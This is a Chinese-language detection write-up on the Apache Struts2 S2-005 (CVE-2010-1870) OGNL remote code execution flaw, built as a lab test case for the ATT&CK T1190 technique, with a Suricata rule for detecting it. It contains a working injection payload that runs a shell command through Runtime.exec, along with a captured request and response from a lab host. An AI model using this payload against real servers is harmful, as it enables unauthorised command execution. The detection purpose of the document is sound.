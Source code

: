 # T1190-CVE-2010-1870-S2-005远程代码执行

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

S2-005是由于官方在修补S2-003不全面导致绕过补丁造成的。我们都知道访问Ognl的上下文对象必须要使用#符号，S2-003对#号进行过滤，但是没有考虑到unicode编码情况，导致\u0023或者8进制\43绕过。S2-005则是绕过官方的安全配置（禁止静态方法调用和类方法执行），再次造成漏洞。

影响版本：2.0.0 - 2.1.8.1

## 检测日志

HTTP

## 测试复现

Burp抓包，修改参数

```yml
?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1
```

## 测试留痕

```yml
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/yun%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: 192.168.60.131:8080
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.60.131:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: pma_lang=zh_CN; pmaUser-1=%7B%22iv%22%3A%22wtmbqwF8evsRAFy6MdC8Og%3D%3D%22%2C%22mac%22%3A%22f9971a0e2275abe89b4ef530bd3450014d701d5d%22%2C%22payload%22%3A%22O%5C%2FIN3WNFI3c21DrYtH7Pug%3D%3D%22%7D; PHPSESSID=57bf9020b21df668496392730ae25830; JSESSIONID=A399DB5AC14D038F86DAD2623E09D1E7
Connection: close

HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Length: 416
Date: Thu, 22 Oct 2020 01:33:35 GMT
Connection: close



<html>
<head>
    <title>Struts is up and running ...</title>
</head>

<body>
<h2>Struts is up and running ...</h2>

<h3>Languages</h3>
<ul>
    <li>
        
            
        
        <a href="/example/HelloWorld.action?request_locale=en">English</a>
    </li>
    <li>
        
            
        
        <a href="/example/HelloWorld.action?request_locale=es">Espanol</a>
    </li>
</ul>

</body>
</html>
```

## 检测规则/思路

### Suricata规则

```s
alert http any any -> any any (msg:"CVE-2010-1870-S2-005";flow:established,to_server;content:"GET";http_method;content:"/example/HelloWorld.action";pcre:"/allowStaticMethodAccess/";pcre:"/xwork.MethodAccessor.denyMethodExecution/";http_uri;reference:url,blog.csdn.net/weixin_43416469/article/details/113849099;classtype:web-application-attck;sid:3002021;rev:1;)
```

### 建议

流量+安全设备比较容易检测到此攻击行为。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Struts2_005_RCE CVE-2010-1870漏洞复现

<https://blog.csdn.net/weixin_43416469/article/details/113849099>

Apache Struts2远程代码执行漏洞检测与利用S2-005（CVE-2010-1870）

<https://idc.wanyunshuju.com/aqld/1920.html>
